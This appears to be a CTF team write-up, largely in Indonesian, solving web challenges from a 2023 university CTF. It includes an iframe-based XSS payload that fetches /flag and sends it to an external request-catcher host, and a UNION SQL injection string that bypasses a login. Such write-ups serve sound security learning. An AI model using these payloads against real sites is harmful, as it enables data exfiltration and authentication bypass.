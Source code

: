 # Spiteful XSS - Web
## Description
Everyone keeps exploiting my site, so I deleted all the globals.

## Solve
Pada challenge ini kita akan diberikan website sebagai berikut.
https://spiteful-xss.acmcyber.com/

![](https://i.imgur.com/PJ2vGU9.png)

Website ini vulnerable dengan XSS, tetapi hampir semua builtins function tidak ada yang bisa dipakai.

Saat kita melihat dibagian atas html kita akan melihat script dibawah ini, yang dimana script ini menghapus semua global variable, sehingga kita tidak bisa melakukan XSS.

```html 
<script>
        for (const k in Object.getOwnPropertyDescriptors(window)) {
            delete window[k];
        }
</script>
```

Bagaimana cara membypassnya.

Disini kita bisa menggunakan `iframe`, iframe akan membuat DOM baru dimana disitu kita bisa menggunakan fungsi fungsi builtins yang ada.

Payload XSS:
```html 
<iframe srcdoc="
<script>
    alert(1)
</script>
"></iframe>
```

![](https://i.imgur.com/aA6T8wy.png)


Get flag:
```html 
<iframe srcdoc="
<script>
    fetch('/flag').then(a=>a.text()).then(a=>fetch('https://xxxxxxxx.m.pipedream.net?'+a))
</script>
"></iframe>
```

![](https://i.imgur.com/2vhONLG.png)

# Injection Perfection - Web
## Description
After port scanning the acmcyber site, I found this hidden login page. After bruteforcing I discovered the user: joe, has the password: bruin, but I didn't find anything useful. Can you log in as admin? 

## Solve
Pada source code kita akan melihat endpoint yang vulnerable dengan SQL Injection.

```node 
const attemptLogin = (username, password) => {
	return new Promise((resolve, reject) => {
		db.get(`SELECT username, password FROM users WHERE username='${username}'`, async (err, row) => {
			if (err)
				return reject(err);
			else if (row === undefined)
				return reject('Invalid User');
			else if (password === row.password)
				return resolve(`My favorite color is ${await getFavColor(row.username)}`);
			else
				return reject('incorrect password');
		});
	})
};
...snip..
app.post('/', async (req, res) => {
	const username = req.body.username;
	const password = req.body.password;

	if (!username || !password)
		return res.status(400).send("Invalid Login");
	
	try {
		return res.status(200).send(await attemptLogin(username, password));
	} catch (err) {
		return res.status(400).send(err);
	}
});
```

Pada endpoint tersebut kita bisa mengirimkan post request yang berisi UNION based SQLI seperti berikut untuk membypass authentifikasi.

```
username='UNION/**/SELECT/**/"admin",'asd&password=asd
```

Setelah itu kita akan mendapatkan flagnya di response content.

# Jester - web

```python
from requests import *
import re
import math

url = "https://jester.acmcyber.com/"

# biar tak terjebak karna cookies pas request
session = Session()
r = session.get(url)
cok = session.cookies.get_dict()

# Ronde 1 = Pertambahan
x1 = re.findall("What is (.*) \?<\/p>", r.content.decode('utf-8'))
data = eval(x1[0])

ans = {'answer': data}
print('r1 =', ans)

r1 = session.post(url=url+'validate', data=ans)

# Ronde 2 = Quadratic Equation 
x2 = re.findall("What are the roots of (.*) \?<\/p>", r1.content.decode())

quadratic = re.findall(r'\d+', x2[0])
coefficients = [int(coefficient) for coefficient in quadratic]
coefficients.pop(1)

x = coefficients[0]
y = coefficients[1]
z = coefficients[2]

cal = (y**2) - (4*x*z)

sol1 = (-y - math.sqrt(cal)) / (2*x)
sol2 = (-y + math.sqrt(cal)) / (2*x)

rd1 = round(sol1)
rd2 = round(sol2)

ans2 = {'answer1': rd1, 'answer2': rd2}
print('r2 =',ans2)

r2 = session.post(url=url+'validate', data=ans2)
print(r2.content)
```

# Our Team Writeup

Daffainfo: https://github.com/daffainfo/ctf-writeup/tree/main/CTF%20After%20Dark%20-%20Winter%202023

| Category | Challenge
| --- | --- |
| Intro | Cookies
| Intro | Secure Platform
| Intro | Bagels
| SQLi | Bank
| SQLi | SQL Prevention-101
| LFI | Star Poet Blog

RisyadAR: https://rizsyad.github.io/CTF-WriteUp/#/2023/After%20Dark%20Winter/

- Website
	-    [Birthday](https://rizsyad.github.io/CTF-WriteUp/#/2023/After%20Dark%20Winter/Web/Birthday/)
	-    [Mean Girls](https://rizsyad.github.io/CTF-WriteUp/#/2023/After%20Dark%20Winter/Web/Mean%20Girls/)
	-    [What's on the Menu?](https://rizsyad.github.io/CTF-WriteUp/#/2023/After%20Dark%20Winter/Web/What's%20on%20the%20Menu%3F/)
	-    [Simple Calculator](https://rizsyad.github.io/CTF-WriteUp/#/2023/After%20Dark%20Winter/Web/Simple%20Calculator/)
	-    [No Fetch?!?!](https://rizsyad.github.io/CTF-WriteUp/#/2023/After%20Dark%20Winter/Web/No%20Fetch%3F!%3F!/)

# etc

CTF source code: https://github.com/uclaacm/ctf-after-dark-w23